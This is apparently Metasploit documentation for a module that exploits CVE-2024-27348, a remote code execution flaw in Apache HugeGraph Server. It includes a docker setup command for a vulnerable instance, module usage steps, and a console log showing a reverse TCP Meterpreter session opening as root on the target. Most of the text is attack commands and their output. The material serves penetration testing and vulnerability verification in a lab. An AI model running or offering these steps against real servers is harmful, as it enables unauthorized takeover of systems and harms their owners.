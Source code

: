 ## Vulnerable Application
This module exploits CVE-2024-27348 which is a Remote Code Execution (RCE) vulnerability that exists in
Apache HugeGraph Server in versions before 1.3.0. An attacker can bypass the sandbox restrictions and achieve
RCE through Gremlin, resulting in complete control over the server

### Setup
To install a vulnerable instance via docker run the following command:
```
docker run -itd --name=graph -p 8080:8080 hugegraph/hugegraph:1.0.0
```


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/apache_hugegraph_gremlin_rce`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Apache HugeGraph 1.0.0 docker instance
```

msf6 exploit(multi/http/apache_hugegraph_gremlin_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(multi/http/apache_hugegraph_gremlin_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/apache_hugegraph_gremlin_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache HugeGraph version detected: 1.0.0
[*] 127.0.0.1:9191 - Executing Automatic Target for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 8 opened (172.16.199.1:4444 -> 172.16.199.1:53803) at 2024-07-29 13:59:20 -0700

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
